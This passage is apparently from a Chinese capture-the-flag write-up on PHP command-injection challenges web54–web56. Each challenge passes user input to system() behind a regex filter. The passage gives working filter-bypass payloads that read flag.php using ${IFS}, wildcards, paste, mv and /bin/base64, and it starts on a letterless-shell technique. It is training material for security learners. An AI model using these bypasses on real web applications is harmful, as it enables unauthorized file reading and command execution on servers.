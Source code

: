 `cat、tac、nl、more、less、head、tail`读取文件内容的命令全部被过滤了，这里有三种解法。

第一种，`paste`命令，合并文件并输出合并后文件内容

`payload：/?c=paste${IFS}fl??.php`

第二种，`mv`命令，将文件改名，并直接访问改名后文件

`payload：/?c=mv${IFS}f???.php${IFS}x.txt`

第三种，可以理解为当前目录运行`cat`命令实际上运行的也是`bin/cat`，而通配符不会帮你去找到`bin`下面的`cat`
只会在当前目录寻找能通配的文件，所以用通配符运行时必须给出路径

`payload：/?c=/bin/?at${IFS}f???.php`

## web55

```php
<?php
// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了字母，但没过滤数字，这一题与下一题都可以用无字母数字的RCE，但翻看其他师傅的做题记录时，看到一个相比较前者，更方便独特的方法，就是通过匹配`/bin`下存在的命令进行读取flag，这方法前面也用过，但实在没想到用到base64这个命令

```php
payload：/?c=/???/????64 ????.???                     也就是?c=/bin/base64 flag.php
```

## web56

```php
<?php
// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

做这一题，一定要深入研读一下[p神的这篇文章](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)，这里最主要的两点：

1、shell利用`.`执行脚本，用`. file`执行文件，是不需要file有x权限的。那么，如果目标服务器上有一个我们可控的文件，那不就可以利用`.`来执行它了吗？

